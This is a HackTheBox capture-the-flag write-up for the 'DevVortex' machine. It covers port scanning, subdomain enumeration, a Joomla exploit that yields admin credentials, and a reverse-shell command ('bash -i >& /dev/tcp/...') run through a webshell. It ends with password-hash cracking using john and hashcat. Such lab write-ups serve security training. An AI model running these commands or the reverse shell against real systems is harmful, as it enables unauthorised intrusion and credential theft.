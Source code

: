 ```yaml
---

title: "DevVortex"
date: 2023-11-29T11:30:03+00:00
tags: ["web","windows","joomla", "apport-cli"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Devvortex.png"
comments: false
description: "This is a friendly linux machine that is vulnerable due a low version of Joomla db."

---
```


## Room Information

- Room name: DevVortex
- Difficulty level: Easy
- Room link: [https://app.hackthebox.com/machines/](https://app.hackthebox.com/machines/devvortex)

![Untitled](/HTB/Devvortex.png)

## Tools Used

- Nmap
- wfuzz
- searchsploit
- gobuster
- hascat
- john

## Port Scanning

Other room, other port scan.

```bash
map -p- -sS --open --min-rate 5000 -n -Pn -oG allPorts 10.10.11.242
```

![Untitled](/HTB/devvortex-1.png)

```bash
nmap -p 22,80 -sCV --min-rate 5000-n -Pn -oN filtered 10.10.11.242
```

![Untitled](/HTB/devvortex-2.png)

Showing this scan, we can say that the vulnerability 99% is inside the website… So lest discover info of port 80.

 

## Enumeration

First I did was a subdomain enumeration to discard things, and I found one (dev.devvortex.htb)..

```bash
gobuster vhost -u devvortex.htb -w /usr/share/wordlists/dirbuster/dns/subdomains-top1million-5000.txt --append-domain -t 40 -k
```

other posibiliti…

```bash
ffuf -w /usr/share/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.devvortex.htb" -u http://devvortex.htb/ -mc 200-299
```

![Untitled](/HTB/devvortex-3.png)

Then I did a directory enumeration to saw if the web contains something interesting. And I saw an administrator panel which was a loguin panel of a joomla database.

![Untitled](/HTB/devvortex-4.png)

Also I discovered this file which contained the joomla version. So first I did since saw this was searching a bypass or something for this db. And I found a lot of them. 

![Untitled](/HTB/devvortex-5.png)

## Exploiting

I used search sploit for searching for exploits and I use this below:

![Untitled](/HTB/devvortex-6.png)

Then I logged with the above credential and I had access to de db panel such as super user…

![Untitled](/HTB/devvortex-7.png)

I found this post on hacktricks, and I followed the guide. Then I gain access to the machine as ww-data 👹

[Joomla](https://book.hacktricks.xyz/v/es/network-services-pentesting/pentesting-web/joomla)

![Untitled](/HTB/devvortex-8.png)

```bash
...?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.130/4444 0>&1'
```

![Untitled](/HTB/devvortex-9.png)

## Escalating Privileges

Then I throw a [`linpeas.sh`](http://linpeas.sh) instance and I show that there was a db running on the backend.. And I logged in using the lewis db credentials I got at first…

Then in the joomla db I found a table called ...._users that contained the ssh users and passwd hashed. So I start decoding them with hashcat and john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

or 

```bash
hashcat -m 3200 -a 0 -w 4 hash /usr/share/wordlists/rockyou.txt
```